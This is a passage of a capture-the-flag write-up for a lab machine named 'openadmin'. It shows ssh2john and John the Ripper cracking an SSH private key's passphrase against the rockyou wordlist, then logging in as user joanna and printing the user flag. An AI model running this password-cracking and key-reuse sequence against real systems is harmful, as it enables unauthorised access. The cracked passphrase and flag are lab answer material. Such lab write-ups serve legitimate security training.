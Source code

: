 ### Bruteforce Password SSH Key
`$ ssh2john joanna_key > joanna.john `
`$ john --wordlist=/usr/share/wordlists/rockyou.txt joanna.john`
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_key)     
1g 0:00:00:00 DONE (2023-12-26 04:11) 25.00g/s 37600p/s 37600c/s 37600C/s bninja95..badassninja
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### SSH to Joanna
`$ ssh -i joanna_key joanna@10.10.10.171`
```
Enter passphrase for key 'joanna_key': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Dec 26 09:15:22 UTC 2023

  System load:  0.0               Processes:             175
  Usage of /:   31.5% of 7.81GB   Users logged in:       1
  Memory usage: 11%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ ls
user.txt
joanna@openadmin:~$ cat user.txt 
aae4928a4fa17a0e99b4b9c5a3d3a23c
joanna@openadmin:~$ 
```
